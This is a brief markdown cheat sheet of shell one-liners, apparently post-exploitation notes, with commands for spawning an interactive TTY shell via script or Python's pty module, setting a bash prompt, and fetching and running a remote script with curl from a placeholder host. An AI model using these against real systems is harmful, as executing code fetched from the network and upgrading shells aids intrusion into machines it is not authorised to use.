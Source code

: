 
- Spawn TTY shell: `/usr/bin/script -qc /bin/bash /dev/null` - <Shows yourself as logged in>
  - to add PWD in bash: `PS1='\u@\h:\w\$ '`

<br />

- Spawn Python TTY Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`

<br />

- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
